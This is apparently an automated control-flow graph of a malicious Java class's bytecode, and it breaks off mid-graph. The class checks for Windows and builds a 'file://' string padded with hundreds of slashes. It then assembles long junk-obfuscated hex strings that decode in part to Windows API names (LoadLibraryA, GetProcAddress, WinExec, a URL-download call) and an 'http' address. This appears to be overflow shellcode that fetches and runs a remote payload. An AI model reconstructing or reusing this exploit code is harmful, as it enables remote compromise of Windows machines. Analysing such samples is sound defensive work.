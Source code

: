 digraph "" {
    "r0 := @this: MyName"
    "push 47"
    "r0 := @this: MyName"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "staticinvoke <MyName: java.lang.String repeat(char,int)>"
    "push 302"->"staticinvoke <MyName: java.lang.String repeat(char,int)>";
    "store.r r140"
    "staticinvoke <MyName: java.lang.String repeat(char,int)>"->"store.r r140";
    "push \"os111.n1am1e\""
    "store.r r140"->"push \"os111.n1am1e\"";
    "push \"1\""
    "push \"os111.n1am1e\""->"push \"1\"";
    "push \"\""
    "push \"1\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"win```\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"win```\"";
    "push \"`\""
    "push \"win```\""->"push \"`\"";
    "push \"`\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "ifge new java.lang.StringBuilder"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"ifge new java.lang.StringBuilder";
    "return"
    "ifge new java.lang.StringBuilder"->"return";
    "new java.lang.StringBuilder"
    "ifge new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"MMMfMMiMleMM:MMMMMM/MM/\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"MMMfMMiMleMM:MMMMMM/MM/\"";
    "push \"M\""
    "push \"MMMfMMiMleMM:MMMMMM/MM/\""->"push \"M\"";
    "push \"M\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r140"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r140";
    "load.r r140"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Zzzz%zzzzZzzzz%Z%zzZzzzz%Z%Zzzzz%\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Zzzz%zzzzZzzzz%Z%zzZzzzz%Z%Zzzzz%\"";
    "push \"z\""
    "push \"Zzzz%zzzzZzzzz%Z%zzZzzzz%Z%Zzzzz%\""->"push \"z\"";
    "push \"z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r140";
    "store.r r140"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"JJJJ5JJJJ05J35152JJ5JJJ657JJJJ55JJJJ9CE8JJJ000\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"JJJJ5JJJJ05J35152JJ5JJJ657JJJJ55JJJJ9CE8JJJ000\"";
    "push \"J\""
    "push \"JJJJ5JJJJ05J35152JJ5JJJ657JJJJ55JJJJ9CE8JJJ000\""->"push \"J\"";
    "push \"J\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00000xx5Dxxxxxxxx83xxExxxDx0Dx3xxx1C0xxx640340xxxx30xxx7xxxx8x0Cxxxx8xxxxBxx400C8Bxxxx7xxx0x1CxxxxxAxxxxD8B4xx0xxxxx08ExxxxxB0xxxx98B4x034x8xxxxD\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00000xx5Dxxxxxxxx83xxExxxDx0Dx3xxx1C0xxx640340xxxx30xxx7xxxx8x0Cxxxx8xxxxBxx400C8Bxxxx7xxx0x1CxxxxxAxxxxD8B4xx0xxxxx08ExxxxxB0xxxx98B4x034x8xxxxD\"";
    "push \"x\""
    "push \"00000xx5Dxxxxxxxx83xxExxxDx0Dx3xxx1C0xxx640340xxxx30xxx7xxxx8x0Cxxxx8xxxxBxx400C8Bxxxx7xxx0x1CxxxxxAxxxxD8B4xx0xxxxx08ExxxxxB0xxxx98B4x034x8xxxxD\""->"push \"x\"";
    "push \"x\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \";;;407C8;B4;;;;0;;3C5657B;;;E;;5E0;;;1;;;;;;;;0;;000;;01E;;;;E;;;;B;;;;F;;;4;;;;E0;;1;;;;0;;;;00;;0;;;;01;;;;EFE8;;;D60;;;;1;;;;;;;0;;;0005;;;;F;;5;E;;;8;;9;;;;E;A;;;;8\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \";;;407C8;B4;;;;0;;3C5657B;;;E;;5E0;;;1;;;;;;;;0;;000;;01E;;;;E;;;;B;;;;F;;;4;;;;E0;;1;;;;0;;;;00;;0;;;;01;;;;EFE8;;;D60;;;;1;;;;;;;0;;;0005;;;;F;;5;E;;;8;;9;;;;E;A;;;;8\"";
    "push \";\""
    "push \";;;407C8;B4;;;;0;;3C5657B;;;E;;5E0;;;1;;;;;;;;0;;000;;01E;;;;E;;;;B;;;;F;;;4;;;;E0;;1;;;;0;;;;00;;0;;;;01;;;;EFE8;;;D60;;;;1;;;;;;;0;;;0005;;;;F;;5;E;;;8;;9;;;;E;A;;;;8\""->"push \";\"";
    "push \";\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1hhhhChhhhh2hhh5hhhE010000hh5hhhhhhh26h8hhhhhh80hhhh00hhh0hh00hhh0FF95h4Ehh\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1hhhhChhhhh2hhh5hhhE010000hh5hhhhhhh26h8hhhhhh80hhhh00hhh0hh00hhh0FF95h4Ehh\"";
    "push \"h\""
    "push \"1hhhhChhhhh2hhh5hhhE010000hh5hhhhhhh26h8hhhhhh80hhhh00hhh0hh00hhh0FF95h4Ehh\""->"push \"h\"";
    "push \"h\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0BB1BBB00BB0BBBBBB0BB89BBBEBA81CBBB2B5BBE0BBB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0BB1BBB00BB0BBBBBB0BB89BBBEBA81CBBB2B5BBE0BBB\"";
    "push \"B\""
    "push \"0BB1BBB00BB0BBBBBB0BB89BBBEBA81CBBB2B5BBE0BBB\""->"push \"B\"";
    "push \"B\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"MM1M0MMM0MMMMMM0MMM0MMMMM31MF6M0MMMM1MMMCMMM28MMAM9MMMMMMMC3MMMM5630MMMM200MMM0080MMMFBMMMM0MMM0MM7M40M6MMMM8MM81C3M2MMM46EBEECMMM6M0432MMMMMM0MMM089EA81C2MMMM45MMMMMM0MM20M0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"MM1M0MMM0MMMMMM0MMM0MMMMM31MF6M0MMMM1MMMCMMM28MMAM9MMMMMMMC3MMMM5630MMMM200MMM0080MMMFBMMMM0MMM0MM7M40M6MMMM8MM81C3M2MMM46EBEECMMM6M0432MMMMMM0MMM089EA81C2MMMM45MMMMMM0MM20M0\"";
    "push \"MM1M0MMM0MMMMMM0MMM0MMMMM31MF6M0MMMM1MMMCMMM28MMAM9MMMMMMMC3MMMM5630MMMM200MMM0080MMMFBMMMM0MMM0MM7M40M6MMMM8MM81C3M2MMM46EBEECMMM6M0432MMMMMM0MMM089EA81C2MMMM45MMMMMM0MM20M0\""->"push \"M\"";
    "push \"M\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0vvvvvv0vvvv52FF9vvvvvvvv55vv20vvvv1000vvvvvv08vvvvvv9vvvvvEvvA81vvC2vvv5vvv0vv0v2vvv0v000v5vvv2vv50vvFvvvvFvvv95vv5vvvv601vv00v0vvv0vvv6vvvAvvv0vvvv06Avvvv0vvvv0v8vvvv9EvvvvA81C25E0vvv10vv0vvv0vvvv0vvvvv5vvv2vvvvvvv89EA81vCvvv2vvvv\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0vvvvvv0vvvv52FF9vvvvvvvv55vv20vvvv1000vvvvvv08vvvvvv9vvvvvEvvA81vvC2vvv5vvv0vv0v2vvv0v000v5vvv2vv50vvFvvvvFvvv95vv5vvvv601vv00v0vvv0vvv6vvvAvvv0vvvv06Avvvv0vvvv0v8vvvv9EvvvvA81C25E0vvv10vv0vvv0vvvv0vvvvv5vvv2vvvvvvv89EA81vCvvv2vvvv\"";
    "push \"v\""
    "push \"0vvvvvv0vvvv52FF9vvvvvvvv55vv20vvvv1000vvvvvv08vvvvvv9vvvvvEvvA81vvC2vvv5vvv0vv0v2vvv0v000v5vvv2vv50vvFvvvvFvvv95vv5vvvv601vv00v0vvv0vvv6vvvAvvv0vvvv06Avvvv0vvvv0v8vvvv9EvvvvA81C25E0vvv10vv0vvv0vvvv0vvvvv5vvv2vvvvvvv89EA81vCvvv2vvvv\""->"push \"v\"";
    "push \"v\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"78ppp02p0pppp0pppp0ppp0pppp5pp2ppp6pApppp00pFppppFppppDppp06A0pppp589EAp8p1Cppp25Epp0p1ppp00\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"78ppp02p0pppp0pppp0ppp0pppp5pp2ppp6pApppp00pFppppFppppDppp06A0pppp589EAp8p1Cppp25Epp0p1ppp00\"";
    "push \"p\""
    "push \"78ppp02p0pppp0pppp0ppp0pppp5pp2ppp6pApppp00pFppppFppppDppp06A0pppp589EAp8p1Cppp25Epp0p1ppp00\""->"push \"p\"";
    "push \"p\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0hhhh05hhh2hhhhFF9h55A0hhh1hh0hhhhh00089hEA81C25hhE01hhhh0hh0hhhhhh0hhh0526hhh8hhhh8hhhh00hhhh000h0h0FhFhh95hhh4E0100hh0hhhh0h89EhhAhhhhh8hh1C\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0hhhh05hhh2hhhhFF9h55A0hhh1hh0hhhhh00089hEA81C25hhE01hhhh0hh0hhhhhh0hhh0526hhh8hhhh8hhhh00hhhh000h0h0FhFhh95hhh4E0100hh0hhhh0h89EhhAhhhhh8hh1C\"";
    "push \"0hhhh05hhh2hhhhFF9h55A0hhh1hh0hhhhh00089hEA81C25hhE01hhhh0hh0hhhhhh0hhh0526hhh8hhhh8hhhh00hhhh000h0h0FhFhh95hhh4E0100hh0hhhh0h89EhhAhhhhh8hh1C\""->"push \"h\"";
    "push \"h\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"25E01gggg0gggg00gg031gggF6g0ggg1gggC2ggg8A9Cgg356E0gg2ggg0gggg000g80FggggB00ggggg7gg4gggggg06ggg8gg8gggg1Cgg324gg6gggEBggggEgggECgggg60gggg4gg3200gg89EggggA8ggggg1gggC2ggg4gg5ggg020000ggg5ggg\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"25E01gggg0gggg00gg031gggF6g0ggg1gggC2ggg8A9Cgg356E0gg2ggg0gggg000g80FggggB00ggggg7gg4gggggg06ggg8gg8gggg1Cgg324gg6gggEBggggEgggECgggg60gggg4gg3200gg89EggggA8ggggg1gggC2ggg4gg5ggg020000ggg5ggg\"";
    "push \"g\""
    "push \"25E01gggg0gggg00gg031gggF6g0ggg1gggC2ggg8A9Cgg356E0gg2ggg0gggg000g80FggggB00ggggg7gg4gggggg06ggg8gg8gggg1Cgg324gg6gggEBggggEgggECgggg60gggg4gg3200gg89EggggA8ggggg1gggC2ggg4gg5ggg020000ggg5ggg\""->"push \"g\"";
    "push \"g\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"2FnF9552010000n8nn9EAnnnn81nnC25nn00200nn005n25nnnn0nnFFnnn9nn5nnn56n010000nn6Annn0nn06Annnn008nnnn9EA8n1nnnn\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"2FnF9552010000n8nn9EAnnnn81nnC25nn00200nn005n25nnnn0nnFFnnn9nn5nnn56n010000nn6Annn0nn06Annnn008nnnn9EA8n1nnnn\"";
    "push \"n\""
    "push \"2FnF9552010000n8nn9EAnnnn81nnC25nn00200nn005n25nnnn0nnFFnnn9nn5nnn56n010000nn6Annn0nn06Annnn008nnnn9EA8n1nnnn\""->"push \"n\"";
    "push \"n\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"uuuuC25Euuuu0uu1uu0uuuu00u0uu52uuuuuu89uuuuEuuuA81C2uuAuuu60u20000uuuuuu5uuu2uu6uuA00FuuuuFD0uuuu6A0589EA8uuu1C25uuuuuE0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"uuuuC25Euuuu0uu1uu0uuuu00u0uu52uuuuuu89uuuuEuuuA81C2uuAuuu60u20000uuuuuu5uuu2uu6uuA00FuuuuFD0uuuu6A0589EA8uuu1C25uuuuuE0\"";
    "push \"u\""
    "push \"uuuuC25Euuuu0uu1uu0uuuu00u0uu52uuuuuu89uuuuEuuuA81C2uuAuuu60u20000uuuuuu5uuu2uu6uuA00FuuuuFD0uuuu6A0589EA8uuu1C25uuuuuE0\""->"push \"u\"";
    "push \"u\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"10ZZZ000ZZ52FZZF95ZZZ5ZZZAZZ0ZZZ1000Z09ZZZZD5ZZD5ZZZFZZ5E5ZZZA5Z9Z5BZ5Z8C30ZZ000ZZZ000ZZZ000000ZZZZ00ZZZ0ZZZ00ZZZZZZZ00Z00ZZ00ZZ00Z0ZZZ00ZZZZ0Z0ZZ0476ZZZZ5ZZZZ74Z5465ZZZZ6DZZ7ZZZZ0506Z1Z74684\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"10ZZZ000ZZ52FZZF95ZZZ5ZZZAZZ0ZZZ1000Z09ZZZZD5ZZD5ZZZFZZ5E5ZZZA5Z9Z5BZ5Z8C30ZZ000ZZZ000ZZZ000000ZZZZ00ZZZ0ZZZ00ZZZZZZZ00Z00ZZ00ZZ00Z0ZZZ00ZZZZ0Z0ZZ0476ZZZZ5ZZZZ74Z5465ZZZZ6DZZ7ZZZZ0506Z1Z74684\"";
    "push \"Z\""
    "push \"10ZZZ000ZZ52FZZF95ZZZ5ZZZAZZ0ZZZ1000Z09ZZZZD5ZZD5ZZZFZZ5E5ZZZA5Z9Z5BZ5Z8C30ZZ000ZZZ000ZZZ000000ZZZZ00ZZZ0ZZZ00ZZZZZZZ00Z00ZZ00ZZ00Z0ZZZ00ZZZZ0Z0ZZ0476ZZZZ5ZZZZ74Z5465ZZZZ6DZZ7ZZZZ0506Z1Z74684\""->"push \"Z\"";
    "push \"Z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"II1II0III0IIII4C6IIIIFIII61I64I4CII69III6III2726IIII17II27III9III41IIII00I4765II7450III726FIIIIII63III4164III6IIII47IIIII26I5II73III73IIII0057I696IIIIEIII45II78IIII65I63\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"II1II0III0IIII4C6IIIIFIII61I64I4CII69III6III2726IIII17II27III9III41IIII00I4765II7450III726FIIIIII63III4164III6IIII47IIIII26I5II73III73IIII0057I696IIIIEIII45II78IIII65I63\"";
    "push \"I\""
    "push \"II1II0III0IIII4C6IIIIFIII61I64I4CII69III6III2726IIII17II27III9III41IIII00I4765II7450III726FIIIIII63III4164III6IIII47IIIII26I5II73III73IIII0057I696IIIIEIII45II78IIII65I63\""->"push \"I\"";
    "push \"I\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"==0=0BB89===F==2===8====9F=7===30===C0===A===E7====5=======FD=2====9=F=78===9F===931C0==BE3====C===0=00=00===003====B===5===1======B0==2==00=0==0===6===6A==D===03851B0===20=0===00====8====B70788========3C====61C==0====3B51B0==2=0===0=008DBD=1F====0=2====0==0===0====0A==D====0=38===51B===02==0====0====0====0A===BAD==038===5=1B0==200=0050A===B====A====D=03==851=======B=02===0=\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"==0=0BB89===F==2===8====9F=7===30===C0===A===E7====5=======FD=2====9=F=78===9F===931C0==BE3====C===0=00=00===003====B===5===1======B0==2==00=0==0===6===6A==D===03851B0===20=0===00====8====B70788========3C====61C==0====3B51B0==2=0===0=008DBD=1F====0=2====0==0===0====0A==D====0=38===51B===02==0====0====0====0A===BAD==038===5=1B0==200=0050A===B====A====D=03==851=======B=02===0=\"";
    "push \"=\""
    "push \"==0=0BB89===F==2===8====9F=7===30===C0===A===E7====5=======FD=2====9=F=78===9F===931C0==BE3====C===0=00=00===003====B===5===1======B0==2==00=0==0===6===6A==D===03851B0===20=0===00====8====B70788========3C====61C==0====3B51B0==2=0===0=008DBD=1F====0=2====0==0===0====0A==D====0=38===51B===02==0====0====0====0A===BAD==038===5=1B0==200=0050A===B====A====D=03==851=======B=02===0=\""->"push \"=\"";
    "push \"=\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"VV0VVV00VAVVVVB5VVVVVE31VVVVVDVVVBAVVVDVVVVVV5VV6VVV03VVV8VV51VBVVV02V00V008VV9VVC689VVVDV75V1VFCFVV3VA659VVV740VVVV45VVVE43VVVEVVVBVVVVE95EVV93D1EVV00VVV3852VVV702VVVV0VVV0VV0VVV0VV3V1FVVV696VV6VV6VVVVAVVVDVC1VVVVVVE0VVVVVV0VVVV2VVVV03VV8V5VVVVVVVV1VVVVFVV02VV000089VVV\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"VV0VVV00VAVVVVB5VVVVVE31VVVVVDVVVBAVVVDVVVVVV5VV6VVV03VVV8VV51VBVVV02V00V008VV9VVC689VVVDV75V1VFCFVV3VA659VVV740VVVV45VVVE43VVVEVVVBVVVVE95EVV93D1EVV00VVV3852VVV702VVVV0VVV0VV0VVV0VV3V1FVVV696VV6VV6VVVVAVVVDVC1VVVVVVE0VVVVVV0VVVV2VVVV03VV8V5VVVVVVVV1VVVVFVV02VV000089VVV\"";
    "push \"V\""
    "push \"VV0VVV00VAVVVVB5VVVVVE31VVVVVDVVVBAVVVDVVVVVV5VV6VVV03VVV8VV51VBVVV02V00V008VV9VVC689VVVDV75V1VFCFVV3VA659VVV740VVVV45VVVE43VVVEVVVBVVVVE95EVV93D1EVV00VVV3852VVV702VVVV0VVV0VV0VVV0VV3V1FVVV696VV6VV6VVVVAVVVDVC1VVVVVVE0VVVVVV0VVVV2VVVV03VV8V5VVVVVVVV1VVVVFVV02VV000089VVV\""->"push \"V\"";
    "push \"V\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"llllC6lAlllDll03ll8lll5llllllll1Blll0l20l0lll0llll0C\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"llllC6lAlllDll03ll8lll5llllllll1Blll0l20l0lll0llll0C\"";
    "push \"l\""
    "push \"llllC6lAlllDll03ll8lll5llllllll1Blll0l20l0lll0llll0C\""->"push \"l\"";
    "push \"l\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"3E<<B<<<<10000<<0<00<00<<<<<<0000<<<<0<0000<<<<0<00<<<<0<<<<<<0<<<<0000<<<<<<<<000<<<000898<51B0<<<<2<<0<<0<00565<<<<7<<<<E8<<<<<58FF<<<<FFFF<<<<5<<<F5<<EA<B<01<<C<<<<\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"3E<<B<<<<10000<<0<00<00<<<<<<0000<<<<0<0000<<<<0<00<<<<0<<<<<<0<<<<0000<<<<<<<<000<<<000898<51B0<<<<2<<0<<0<00565<<<<7<<<<E8<<<<<58FF<<<<FFFF<<<<5<<<F5<<EA<B<01<<C<<<<\"";
    "push \"<\""
    "push \"3E<<B<<<<10000<<0<00<00<<<<<<0000<<<<0<0000<<<<0<00<<<<0<<<<<<0<<<<0000<<<<<<<<000<<<000898<51B0<<<<2<<0<<0<00565<<<<7<<<<E8<<<<<58FF<<<<FFFF<<<<5<<<F5<<EA<B<01<<C<<<<\""->"push \"<\"";
    "push \"<\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"oooE8oo0ooooo3EoBooooBoo7oo4ooo02EBEoooooDooooC3oooo5oooo55ooo2o4ooC4D4oF4Eo2E4ooo44Coooo4C0oooo0oooo5552o4C4oo46oooF776oo\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"oooE8oo0ooooo3EoBooooBoo7oo4ooo02EBEoooooDooooC3oooo5oooo55ooo2o4ooC4D4oF4Eo2E4ooo44Coooo4C0oooo0oooo5552o4C4oo46oooF776oo\"";
    "push \"o\""
    "push \"oooE8oo0ooooo3EoBooooBoo7oo4ooo02EBEoooooDooooC3oooo5oooo55ooo2o4ooC4D4oF4Eo2E4ooo44Coooo4C0oooo0oooo5552o4C4oo46oooF776oo\""->"push \"o\"";
    "push \"o\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"EMMMMM6C6MMMMFMMM6MMM16M4M54MMM6MFMMMMMM46696MMMMC6541MMMMMMM00M7MMMM064MMM6MM67MMMM5M7MMM0642EMMMM657MMMM8MMM650M0637MM261MMM73M682E7M0MM6870M00\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"EMMMMM6C6MMMMFMMM6MMM16M4M54MMM6MFMMMMMM46696MMMMC6541MMMMMMM00M7MMMM064MMM6MM67MMMM5M7MMM0642EMMMM657MMMM8MMM650M0637MM261MMM73M682E7M0MM6870M00\"";
